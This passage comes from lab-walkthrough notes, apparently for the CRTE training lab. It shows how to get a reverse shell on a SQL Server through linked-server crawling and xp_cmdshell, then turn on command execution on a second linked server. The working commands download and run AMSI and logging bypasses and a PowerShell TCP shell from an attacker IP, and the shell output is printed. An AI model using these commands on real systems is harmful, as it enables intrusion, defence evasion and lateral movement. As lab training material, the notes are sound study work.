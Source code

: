 ```powershell
PS C:\Auditor> ipmo .\powercat.ps1
PS C:\Auditor> powercat -l -v -p 443 -t 1000
VERBOSE: Set Stream 1: TCP
VERBOSE: Set Stream 2: Console
VERBOSE: Setting up Stream 1...
VERBOSE: Listening on [0.0.0.0] (port 443)
```
- Then we will execute the command to get the reverse shell on the target server.
```powershell
PS C:\Auditor> Get-SQLServerLinkCrawl -Instance us-mssql -Query 'exec master..xp_cmdshell ''powershell -c "iex (iwr -UseBasicParsing http://192.168.100.57/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://192.168.100.57/amsibypasscrtp.txt);iex (iwr -UseBasicParsing http://192.168.100.57/Invoke-PowerShellTcp.ps1)"''' -QueryTarget db-sqlprod
```
- On our listener, we can will get a call back from the target server (we might need to press "Enter" a few times).
```powershell
VERBOSE: Connection from [192.168.23.25] port  [tcp] accepted (source port 51545)
VERBOSE: Setting up Stream 2...
VERBOSE: Both Communication Streams Established. Redirecting Data Between Streams...
Windows PowerShell running as user MSSQLSERVER on DB-SQLPROD
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> Get-WmiObject -Namespace root\cimv2 -Class Win32_ComputerSystem | Select Name, Domain

Name       Domain
----       ------
DB-SQLPROD db.local
```
- We have now access to `db.local` which we can start enumerating at [[3. CRTE/2. Lab Walkthrough/7th Forest (db.local)/db.local/1. Domain Enumeration|1. Domain Enumeration]].
- We noticed from [[3. CRTE/2. Lab Walkthrough/1st Forest (techcorp.local)/1. us.techcorp.local/1. Domain Enumeration|1. Domain Enumeration]] that the link from `DB-SQLPOD` to `DB-SQLSRV` is configured to use `sa`. This means that we can enable `xp_cmdshell` on `DB-SQLSRV` from the reverse shell on `DB-SQLPOD` and be able to execute commands there as well.
```powershell
PS C:\Windows\system32> Invoke-SqlCmd -Query "exec sp_serveroption @server='db-sqlsrv', @optname='rpc', @optvalue='TRUE'"

PS C:\Windows\system32> Import-Module : The specified module 'SQLASCmdlets' was not loaded because no valid module file was found in any
module directory.
At C:\Program Files (x86)\Microsoft SQL Server\140\Tools\PowerShell\Modules\SQLPS\SqlPsPostScript.ps1:18 char:1
+ Import-Module SQLASCmdlets -ErrorAction SilentlyContinue -Global
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : ResourceUnavailable: (SQLASCmdlets:String) [Import-Module], FileNotFoundException
    + FullyQualifiedErrorId : Modules_ModuleNotFound,Microsoft.PowerShell.Commands.ImportModuleCommand

PS C:\Windows\system32> Invoke-SqlCmd -Query "exec sp_serveroption @server='db-sqlsrv', @optname='rpc out', @optvalue='TRUE'"

PS C:\Windows\system32> PS C:\Windows\system32> Invoke-SqlCmd -Query "EXECUTE ('sp_configure ''show advanced options'',1;reconfigure;') AT ""db-sqlsrv"""
PS C:\Windows\system32> Invoke-SqlCmd -Query "EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure') AT ""db-sqlsrv"""
```
- From `STUDENT57` we can now check if we have OS command execution privileges at `DB-SQLSRV`.
```powershell
PS C:\Auditor> Get-SQLServerLinkCrawl -Instance us-mssql.us.techcorp.local -Query "exec master..xp_cmdshell 'whoami'"
```